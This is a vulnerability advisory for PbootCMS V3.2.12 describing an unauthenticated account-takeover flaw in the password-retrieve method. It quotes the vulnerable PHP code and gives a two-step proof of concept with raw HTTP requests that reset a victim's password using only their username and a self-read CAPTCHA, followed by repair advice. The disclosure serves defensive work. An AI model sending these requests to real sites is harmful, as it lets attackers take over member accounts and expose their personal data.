

# Hnaoyun Inc. PbootCMS Project V3.2.12 apps/home/controller/MemberController.php Account Takeover via Improper Authentication in Password Retrieve

# NAME OF AFFECTED PRODUCT(S)

- PbootCMS

## Vendor Homepage

- https://www.pbootcms.com/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- yunyan05

## Vulnerable File

- apps/home/controller/MemberController.php

## VERSION(S)

- V3.2.12

## Software Link

- https://github.com/pbootcmspro/PbootCMS/releases/tag/V3.2.12

# PROBLEM TYPE

## Vulnerability Type

- Improper Authentication / Account Takeover via Broken Password Recovery (CWE-287 + CWE-640)

## Root Cause

- An account takeover vulnerability was identified within the `apps/home/controller/MemberController.php` file (`retrieve()` method) of the PbootCMS project. The password recovery flow accepts the target username and a new password from an unauthenticated POST request, validates the request only against an image CAPTCHA stored in `$_SESSION['checkcode']`, and writes the new password directly to the `ay_member` table without any out-of-band ownership proof (no email token, no link verification). Five independent flaws are stacked:
  1. The email-match guard is short-circuited by `!empty($userInfo['useremail'])`, so any account whose `useremail` column is empty (the default for "account-mode" registration) bypasses the email check entirely.
  2. Even when `useremail` is non-empty, the comparison is a knowledge proof — knowing the string is enough; ownership of the mailbox is never required.
  3. No one-time / time-bound reset token is issued, and no verification email is sent at any point in the flow; the controller calls `updatePassword()` directly on the first POST.
  4. The image CAPTCHA only proves "the submitter is human", not "the submitter is user X".
  5. The CAPTCHA session key `$_SESSION['checkcode']` is shared between the image-CAPTCHA endpoint (`core/code.php`) and the email-verification-code endpoint (`MemberController::sendEmail`); the `retrieve()` validator does not distinguish the source, so a freshly issued image CAPTCHA can satisfy what the front-end UI labels as the "email verification code".

## Impact

- Exploiting this vulnerability allows an unauthenticated remote attacker, given only knowledge of a victim's username, to overwrite that account's password and fully take over the membership account. On a typical PbootCMS deployment (e-commerce / community / content sites), this exposes member-bound data such as orders, points, shipping addresses, private messages and any custom member fields, and provides a foothold for further attacks against the application's authenticated surface.

# DESCRIPTION

- During the security assessment of PbootCMS, I identified a critical account takeover vulnerability in `apps/home/controller/MemberController.php`. The `retrieve()` action implements password recovery as a single unauthenticated POST that trusts an image CAPTCHA as the sole guard, never verifies control of the registered email address, and immediately writes the attacker-supplied password into the database. The `useremail` field — the only check that even superficially resembles an ownership proof — is short-circuited when the target account's `useremail` column is empty, which is the default state for accounts created through PbootCMS's "username" registration mode. Combined with the shared `$_SESSION['checkcode']` namespace between the image CAPTCHA generator and the email-code sender, an attacker only needs (a) a fresh image CAPTCHA they can read themselves and (b) the victim's username to permanently rewrite the victim's password. Immediate corrective actions are essential to safeguard system security and uphold member account integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability location:

- `apps/home/controller/MemberController.php` :: `retrieve()` (lines 263–301)
- Vulnerable parameters in the POST body: `username`, `password`, `email`, `checkcode`

Vulnerable source (V3.2.12, unchanged from V3.2.5):

```php
public function retrieve(){
    if($_POST){
        $checkcode = strtolower(post('checkcode', 'var'));
        $email     = post('email');
        $username  = post('username');
        $password  = post('password');
        if (! $checkcode)                            alert_back('验证码不能为空！');
        if ($checkcode != session('checkcode'))      alert_back('验证码错误！');   // [flaw 4+5]
        $where    = ['username' => $username];
        $userInfo = object_to_array($this->model->checkUsername($where));
        if(!$userInfo)                               alert_back('该用户不存在！');
        if(!empty($userInfo['useremail']) && $userInfo['useremail'] != $email){     // [flaw 1+2]
            alert_back('与注册邮箱不匹配，请联系管理员！');
        }
        $data = [
            'useremail' => $email,
            'password'  => md5(md5($password))
        ];
        $this->model->updatePassword($where, $data);                                // [flaw 3] direct write, no token
        alert_location('修改成功！', Url::home('member/login'), 1);
    }
}
```

## Payload:

```makefile
Step 1 — prime $_SESSION['checkcode'] and read the 4-char code from the returned PNG:

    GET /pbootcms-3.2.12/core/code.php
    Referer: http://<host>/pbootcms-3.2.12/?member/retrieve/

Step 2 — replay the same PbootSystem cookie and submit the new password:

    POST /pbootcms-3.2.12/?member/retrieve/
    Cookie: PbootSystem=<same session id from Step 1>
    Content-Type: application/x-www-form-urlencoded

    username=<victim>&email=any@attacker.tld&checkcode=<lowercased 4-char code>&password=<attacker-chosen>
```

## Vulnerability Request Packet

```makefile
POST /pbootcms-3.2.12/?member/retrieve/ HTTP/1.1
Host: 192.168.131.1
Content-Length: 60
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.131.1
Referer: http://192.168.131.1/pbootcms-3.2.12/?member/retrieve/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=cn; PbootSystem=ia56ivrf4qgr49loi17mvsi7it
Connection: keep-alive

username=victim&email=aaa.com&checkcode=xkr6&password=123456
```

Server response (HTTP 200) — the password of `victim` is overwritten to `123456` and the application instructs the client to redirect to the login page:

```http
HTTP/1.1 200 OK
Date: Wed, 13 May 2026 13:10:25 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-UA-Compatible: IE=edge,chrome=1
X-Powered-By: PbootCMS
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=utf-8
Content-Length: 94

{"code":1,"data":"修改成功！","tourl":"\/pbootcms-3.2.12\/?member\/login\/","rowtotal":1}
```

## The following are screenshots of the request / response captured in Burp Repeater confirming the takeover:

![Step 1 — GET /pbootcms-3.2.12/core/code.php primes $_SESSION['checkcode'] and returns the CAPTCHA image (here: "Xkr6")](./1.png)



After the request above, logging in at `/pbootcms-3.2.12/?member/login/` with `victim / 123456` succeeds and grants full access to the victim's member centre — account takeover is complete.

# Suggested repair

1. **Do not accept `email` from the request body.**
   The recovery flow must read the registered email address from the `ay_member` row identified by `username`. The user-supplied `email` field must be removed from the form and ignored server-side.

2. **Issue a one-time, time-bound reset token and verify it in a separate step.**
   When a recovery request is received, generate a cryptographically strong token (e.g. `bin2hex(random_bytes(32))`), persist it in the database with a short TTL (e.g. 15 minutes) bound to the user id, and email the link `/?member/resetPassword&token=<token>` to the registered address only. Password modification must be performed by a second endpoint (`resetPassword`) that consumes and invalidates the token.

3. **Separate CAPTCHA session namespaces.**
   Replace the shared `$_SESSION['checkcode']` with purpose-scoped keys (e.g. `checkcode_login`, `checkcode_register`, `checkcode_email_<addr>`) so that an image CAPTCHA cannot satisfy a check that the UI labels as an email-delivered code.

4. **Do not disclose account existence in error messages.**
   Return a uniform "If an account with that username exists and has a verified email, a recovery message has been sent." response in both the "user found" and "user not found" branches to prevent username enumeration (which compounds the impact of this issue).

5. **Apply rate-limiting and audit logging on the recovery endpoint.**
   Throttle by source IP and by target username, and log every attempted password reset (including the source IP, target username, success/failure) so that mass-takeover attempts are detectable.
